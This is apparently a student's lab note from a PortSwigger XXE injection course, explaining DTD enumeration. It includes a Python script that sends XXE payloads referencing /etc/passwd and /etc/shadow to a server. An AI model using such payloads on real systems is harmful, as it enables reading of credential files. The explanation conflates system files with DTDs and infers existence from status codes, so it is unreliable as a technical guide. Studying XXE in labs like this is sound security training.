

## Enumerating DTDs

### What is a DTD?

A Document Type Definition (DTD) is a set of rules that define the structure and constraints of an XML document. It specifies the elements, attributes, and entities that can be used within the document. DTDs can be internal (embedded within the XML document) or external (referenced from an external file).

### Why Enumerate DTDs?

Enumerating DTDs helps identify potential entry points for XXE attacks. By discovering existing DTDs, an attacker can craft malicious XML input that references these DTDs, leading to unauthorized actions.

### How to Enumerate DTDs

To enumerate DTDs, an attacker can send requests to the server with various paths and observe the responses. A successful enumeration will return a `200 OK` status, indicating that the DTD exists. Conversely, a `400 Bad Request` status indicates that the DTD does not exist.

#### Example Enumeration Process

Consider the following Python script to enumerate DTDs:

```python
import requests

base_url = "http://example.com"
paths = [
    "/usr/share/yelp/dtd/docbookx.dtd",
    "/etc/passwd",
    "/etc/shadow"
]

for path in paths:
    url = f"{base_url}?xml=<!DOCTYPE root [ <!ENTITY xxe SYSTEM \"{path}\"> ]><root>&xxe;</root>"
    response = requests.get(url)
    if response.status_code == 200:
        print(f"DTD found: {path}")
    else:
        print(f"DTD not found: {path}")
```

### Mermaid Diagram: Enumeration Flow



---
<!-- nav -->
[[05-Crafting the XXE Payload|Crafting the XXE Payload]] | [[Web Security (PortSwigger)/08-XXE Injection/10-Lab 9 Exploiting XXE to retrieve data by repurposing a local DTD/00-Overview|Overview]] | [[07-Exploiting XXE to Retrieve Data|Exploiting XXE to Retrieve Data]]
